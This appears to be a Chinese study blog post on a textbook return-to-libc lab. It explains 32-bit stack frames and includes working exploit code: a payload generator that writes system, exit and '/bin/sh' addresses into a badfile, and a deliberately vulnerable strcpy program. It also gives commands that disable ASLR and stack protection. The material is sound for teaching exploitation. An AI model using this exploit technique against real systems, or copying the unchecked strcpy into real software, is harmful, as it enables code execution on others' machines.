

## 前言

来源：《Computer Security》A Hands-on Approach   — Wenliang Du

[return2libc学习笔记](https://wooyun.js.org/drops/return2libc学习笔记.html)

> r2libc技术是一种缓冲区溢出利用技术，主要用于克服常规缓冲区溢出漏洞利用技术中面临的no stack executable限制(**所以后续实验还是需要关闭系统的ASLR，以及堆栈保护**)，比如PaX和ExecShield安全策略。该技术主要是通过覆盖栈帧中保存的函数返回地址(eip)，让其定位到libc库中的某个库函数(如，system等)，而不是直接定位到shellcode。然后通过在栈中精心构造该库函数的参数，以便达到类似于执行shellcode的目的。

上面这段话，来自乌云备份文章。

这章的背景要求：[程序在内存中的布局](https://blog.csdn.net/sinat_38816924/article/details/106081193)　、[gdb调试之栈帧信息](https://blog.csdn.net/sinat_38816924/article/details/106086366)　、[缓冲区溢出攻击](https://blog.csdn.net/sinat_38816924/article/details/106088061)　

---

[toc]

## 摘要和总结

在上一章中，我们利用缓冲区漏洞，将恶意代码shellcode附加在缓冲区的后面。通过覆盖返回地址，跳转到恶意代码，执行栈中的shellcode代码。但是，现在的操作系统已经作出防御，**禁止栈中的数据作为代码执行**。但是这个并没有关系，我们可以不在栈中执行程序，**我们可以通过覆盖返回地址，执行已经在内存中存在的程序**，比如说libc中的system函数。我们希望跳转之后，可以执行system("/bin/sh")。这个做法的难点是，**在哪里放置"/bin/sh"的地址，作为system的参数。**

这次实验环境如下（IA-32：Intel Architecture, 32-bit）：

[几个概念：x86、x86-64和IA-32、IA-64](https://www.cnblogs.com/wangyichao/p/4270394.html)　－－》我不太明白，我知道它是32位的。

```shell
Linux VM 4.8.0-36-generic #36~16.04.1-Ubuntu SMP Sun Feb 5 09:39:41 UTC 2017 i686 i686 i686 GNU/Linux
```

**现在我们的环境，我不知道如何实现return-to-libc的攻击。因为参数的传递通过寄存器。**这里介绍的参数传递还是通过压栈的方式。**知识点有些陈旧。**我们不妨，将它作为一次理解程序在内存中执行过程分析的体验。

虽然早已是64位，但是当年我还是学习王爽的那本汇编(16位)，入门汇编语言,也是唯一一次学习汇编。

关于libc的概念可以参考：[libc、glib、glibc简介](http://www.freeoa.net/development/appro/libc-glib-glibc_554.html)

(ax --> eax ---> rax)

<br>

<br>

## 函数的进入离开过程

**详细的调试过程，可以看前言中的链接**，“gdb调试之栈栈信息”。

这一章，在上一章的基础上，并没有难度。由于实在32位环境中实验，我们调试32位中的程序显示。

我这里稍微赘述下调用过程。Tips：没有给出调用着的准备工作。想看的自己调试。Not difficult.

```c
/**
 * 使用gdb调试该程序，展示内存布局
*/
#include <stdio.h>

void func(int a,int b){
	int x,y;
	x = a + b;
	y = a - b;
}

int main(void){
	int x=0;
	int y=0;
	func(4,3);
	return 0;
}
```

函数，还是最简单的函数。



<br>

### 进入函数

我们可以看到它三步准备：

```assembly
push ebp ;保存上一个栈栈
mov ebp,esp ;设置当前栈帧
sub esp,$N ;给local变量开辟部分内存
```

RA：指return address。


<br>

### 离开函数

```assembly
leavel
ret

;在32位汇编下相当于
mov esp,ebp;
pop ebp
ret
```


<br>

### Return to Libc Attack 

我们需要做的是，<font color=blue>用system的地址覆盖返回地址，在合适的位置填入“/bin/sh"字符串所在内存地址，这个合适的位置是system的参数地址。</font>（这些地址具体位置，我们在下一节叙述，这里暂时默认为已知。我们先从方法上看如何实现。）

我们可以看到**上面取出参数的位置是[ebp+8]**。我当时站在ebp的角度来思考，结果半天没绕出来。

看了书后面的章节，**从esp的角度来看**，就相对而言比较容易了。


1. 首先是离开函数，执行的是离开函数的操作。所以我们用**system的函数地址覆盖return address = ebp+4**。此时esp指向的位置如(b)图所示。
2. 接着是进入一个函数，执行的是进入函数的操作。
   * push ebp，所以函数地址被ebp的内容覆盖; esp+4;
   * mov ebp,esp ,所以ebp的位置如图(c)所示；ebp+8是我们的**参数位置，位置如圆圈１所示**；**这个位置等于原来的ebp + 12**。
   * 圆圈２在现在ebp+4位置，是system的返回地址，**原来ebp+8的位置**，**可以用来设置exit**。虽然我认为这个没什么用。
   * sub esp,$N 　;给local变量开辟部分内存

3. 总结下缓冲区这些信息的覆盖位置
   * system的函数地址覆盖return address = ebp+4
   * 参数位置等于ebp + 12
   * ebp+8的位置，可以用exit函数的内存位置填充，作为返回地址

<br>

<br>

## 具体操作

我们关闭地址随机化，栈保护，开启栈不可执行。

<br>

### 获取system、exit地址

这些内容在动态库中，会映射到当前的进程地址空间中。至于如何映射的，我不知道。


顺便我们再看看system是如何获取参数，或许和书上内容不一样。


我推测**参数，通过[esp+4]取到，也就是我们的参数填充位置**，所以可以正常运行。

这里并没有push ebp操作，在<do_system>中进行操作。比较长，我仅仅截图出部分。


<br>

### 获取参数地址

我们通过`export MYSHELL="/bin/sh"`，给添加环境变量。这个变量会传递给子进程的环境变量中。

我们在子进程中查看这个变量的地址。注意的是，程序名长度会影响"/bin/sh"的位置。所以我们可以用攻击程序的程序名来获取下变量地址。

```c
/**
 * 查看环境变量的地址
 * break main | run | x /100s *((char **)environ)
*/

#include <stdio.h>
#include <stdlib.h>

int main(void){
    char *shell = getenv("MYSHELL");

    if(shell){
        printf("now env the char point size : %u\n",sizeof(char *));

        printf("MYSHELL IS %s\n",shell);

        //64位，不能用%x了
        printf("The address of MYSHELL 0x%lx\n", (unsigned long int)shell);
    }

    return 0;
}
```

<br>

### 生成badfile

```c
/**
 * 用于生成buffer填充内容
 * stack.c中的buffer为100 char
 * bufer和缓冲区之间的距离：0x6c
 * system的地址是： 0xb7da4da0  --> 0x6c+4
 * exit的地址是：   0xb7d989d0  --> 0x6c+8
 * MYSHELL的地址是：0xbffffdd8  --> 0x6c+12
*/

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(void){
    char buffer[200];

    /*填充的内容没有\0就好，我这里填充nop，虽然不执行*/
    memset(buffer,0x90,sizeof(buffer));

    *(long *)(buffer+0x6c+4) = 0xb7da4da0;
    *(long *)(buffer+0x6c+8) = 0xb7d989d0;
    *(long *)(buffer+0x6c+12) = 0xbffffdd8;

    FILE *badfile = fopen("badfile","w");
    if(!badfile){
        printf("cannt open badfile");
        exit(0);
    }

    fwrite(buffer,sizeof(char),sizeof(buffer),badfile);
    fclose(badfile);
    return 0;
}
```

<br>

### 执行Return to Libc Attack

```c
/**
 * 用来演示缓冲区溢出攻击，return-to-libc:stack.c
 * 我们关闭地址随机化，栈保护，开启栈不可执行
 * sudo sysctl -w kernel.randomize_va_space=0
 * gcc -g -fno-stack-protector -z noexecstack -o stack stack.c
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void func(char *src){
    char buffer[100]={0};

    strcpy(buffer,src);
}


int main(void){

    char src[400]={0};

    FILE *badfile = fopen("badfile","r");
    if (!badfile){
        printf("no open badfile");
        return 0;
    }

    fread(src,sizeof(char),300,badfile);

    func(src);

    printf("return properly\n");
    return 0;    
}
```

执行成功如下所示：


<br>

## 参考文章

[几个概念：x86、x86-64和IA-32、IA-64](https://www.cnblogs.com/wangyichao/p/4270394.html)

[libc、glib、glibc简介](http://www.freeoa.net/development/appro/libc-glib-glibc_554.html)

[return2libc学习笔记](https://wooyun.js.org/drops/return2libc学习笔记.html)

<br>

---

<center><font color=red>做难事必有所得。</font></center>

